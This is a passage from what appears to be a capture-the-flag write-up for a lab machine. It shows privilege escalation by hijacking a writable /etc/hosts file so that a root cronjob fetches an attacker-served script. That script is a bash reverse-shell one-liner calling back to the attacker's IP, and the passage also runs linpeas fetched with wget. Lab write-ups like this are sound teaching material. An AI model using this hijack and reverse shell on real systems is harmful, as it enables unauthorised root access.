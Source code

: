 ### Abusing writable hosts file

Also, running `linpeas`, we discover that we are able to write to the `/etc/hosts` file.

```console
mario@mkingdom:~$ wget 10.11.72.22/linpeas.sh
...
mario@mkingdom:~$ chmod +x linpeas.sh
mario@mkingdom:~$ ./linpeas.sh
...
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group mario:
/etc/hosts
...
mario@mkingdom:~$ ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```

Cronjob uses the `mkingdom.thm` hostname to fetch the script to run, and currently it resolves to `127.0.1.1`.

```console
mario@mkingdom:~$ cat /etc/hosts
...
127.0.1.1       mkingdom.thm
...
```

Since we are able to write to the `/etc/hosts` file, we can make `mkingdom.thm` resolve to our IP address and thus the cronjob would fetch the script to run from our server.

First, creating a web server on port 85 to serve the `/app/castle/application/counter.sh` file.

```console
$ mkdir -p app/castle/application/
$ echo "bash -c 'bash -i >& /dev/tcp/10.11.72.22/443 0>&1'" > app/castle/application/counter.sh
$ python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
```
{: .wrap }

Modifying the `/etc/hosts` file.

```console
mario@mkingdom:~$ cat /etc/hosts
...
10.11.72.22     mkingdom.thm
...
```

Now, when the `cronjob` runs the next time, we see it fetching the script from our server.

```console
$ python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...
10.10.69.96 - - [14/Jun/2024 22:16:58] "GET /app/castle/application/counter.sh HTTP/1.1" 200 -
```
